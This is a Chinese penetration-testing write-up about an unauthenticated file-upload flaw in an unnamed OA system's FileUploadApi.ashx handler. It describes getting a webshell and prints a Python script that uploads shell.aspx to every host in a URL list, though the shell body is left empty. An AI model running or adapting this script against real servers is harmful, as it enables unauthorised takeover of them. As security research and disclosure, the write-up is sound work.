









# 记一次某OA渗透测试有意思的文件上传漏洞挖掘经历以及分析-先知社区

> **来源**: https://xz.aliyun.com/news/16396  
> **文章ID**: 16396

---

# 登陆

我这边首先找到的是一个文件上传的登陆框


测试了一下sql注入之类的，发现没有

# 目录扫描



看到api爆出200 ok的那一刻我的心情是激动的，感觉要有很多接口泄露了



一堆ashx文件加上一个UEditor的组件，ashx

`.ashx` [文件扩展名](https://so.csdn.net/so/search?q=文件扩展名&spm=1001.2101.3001.7020)通常用于表示 ASP.NET 处理程序（ASP.NET Handler）。ASP.NET 处理程序是一种在服务器端处理特定类型请求的代码文件。这些文件通常用于执行一些特殊的服务器任务，如图像生成、文件下载或其他动态内容的处理。



ueditor组件也有一个ashx文件，看着文件名字应该就是用来处理文件上传功能的

我们访问一下



给我返回了这个消息，那么我们可以理解为这个文件应该是要传递一个参数的，但是参数是什么，我们目前还不知道

我爆破了一下参数


依旧是接口错误

难道到手的文件上传getshell（bushi就要没了吗？

# 查看前端源码



查看了一下这个js源码



一搜索就搜到了我那个文件名

那么就是说可以有文件删除和文件上传两个选择，传入DoWebUpload或者DoDelete参数即可

那么我们选择上传一个木马文件试试



直接就上传成功了冰蝎连接试试



直接就是getshell成功了

# 批量脚本验证

```
import requests
import os
os.environ["http_proxy"] = "http://127.0.0.1:7890"
os.environ["https_proxy"] = "http://127.0.0.1:7890"
def poc(url=""):
# 目标URL
    url = url+'/api/FileUploadApi.ashx?method=DoWebUpload'
    files = {
        'file': ('shell.aspx', """

        """, 'image/png')
    }

    headers = {
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'Origin': 'null',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'keep-alive'
    }
    try:
        # 发送POST请求
        response = requests.post(url, files=files, headers=headers,timeout=5)
        # 打印返回结果
        print('Response Code:', response.status_code)
        print('Response Text:', response.text)
    except Exception as e:
        print(e)
if __name__ == '__main__':
    file_path = 'url'
    with open(file_path, 'r', encoding='utf-8') as file:
        for line in file:
            print(line.strip())  # 使用 strip() 去掉行末的换行符
            poc("http://" + line.strip())
    # poc()
```



# 小结

这次感觉这个文件上传藏得还是比较深的，也是告诉自己挖掘一些漏洞的时候，千万不能放过任何一处细节，往往细节决定成败。
